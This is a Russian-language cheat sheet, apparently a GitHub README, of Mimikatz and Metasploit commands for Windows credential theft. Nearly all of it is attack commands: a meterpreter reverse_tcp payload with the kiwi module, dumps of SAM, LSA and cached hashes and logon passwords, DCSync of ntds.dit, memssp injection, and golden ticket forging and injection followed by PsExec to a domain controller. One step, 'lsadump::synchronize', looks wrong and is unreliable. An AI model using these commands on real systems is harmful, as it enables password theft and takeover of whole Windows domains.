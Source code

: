 # mimi

МИМИКАТЗ в метасплойт

use windows/x64/meterpreter_reverse_tcp

load kiwi
kiwi_cmd lsadump::sam

https://github.com/gentilkiwi/mimikatz/releases 

Как извлечь хеш пароля пользователя NTLM из файлов реестра


Если есть готвый стянуты файл sam  и system

.\mimikatz.exe

lsadump::sam /system:C:\Share-Server\files\SYSTEM /sam:C:\Share-Server\files\SAM

Если из памяти...
После запуска Mimikatz можно использовать следующие команды для вытягивания паролей из памяти Windows:

- `privilege::debug` - открывает привилегии отладки для текущего процесса.
- token::elevate - повышение привелегий
- `sekurlsa::logonPasswords` - выводит введенные пользователем логины и хэши паролей.
- `lsadump::sam` - вытягивает пароли из базы данных SAM.
- `lsadump::lsa` - вытягивает хэши паролей из дискового хранилища LSA.
- lsadump::lsa /patch Сбросьте эти хэши!!
- `token::elevate` - поднимает привилегии на максимальный уровень.
- `token::whoami` - выводит информацию о текущем пользователе.
-  lsadump::cache - mscash2 последних 10 пользователей из систем и секьюрити
- lsadump::dcsync /all /csv - дампим ntds.dit с контроллера
Подробнее: https://www.securitylab.ru/analytics/517178.php

Для получения данных из ntds.dit, аналогично команде lsadump::sam в инструменте Mimikatz, можно использовать следующие команды:

1. Загрузите ntds.dit в память с помощью команды "lsadump::synchronize". Например:
```
mimikatz # lsadump::synchronize /system:C:\Windows\system32\config\system /ntds:C:\Windows\NTDS\ntds.dit
```

2. Используйте команду "lsadump::dcsync" для извлечения данных из базы данных ntds.dit. Например:
```
mimikatz # lsadump::dcsync /user:Administrator
```
где "Administrator" - это имя пользователя, данные которого вы хотите получить.


Если LSASS в виртуальном контейнере

privilege::debug
misc::memssp

и получаем после перелогина

c:\windows\system32\mimilsa.log

# Golden ticket  - Dump SID and KRBTGT hash (on DC) от АДМИНИСТРАТОРА

PS C:\pentst> .\mimikatz.exe

mimikatz # privilege::debug

mimikatz # token::elevate (DONT NEED THIS)

mimikatz # lsadump::lsa /patch (lsadump::lsa /inject /name:krbtgt)

# Create golden ticket (write to file in this case)
PS C:\Tools> .\mimikatz.exe
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:golden

# Super golden ticket
kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:corp_super_golden /endin:2147483647

# Inject ticket to memory
C:\Tools> mimikatz.exe
mimikatz # kerberos::ptt golden

# PsExec to DC
PsExec64.exe \\dc01 cmd.exe
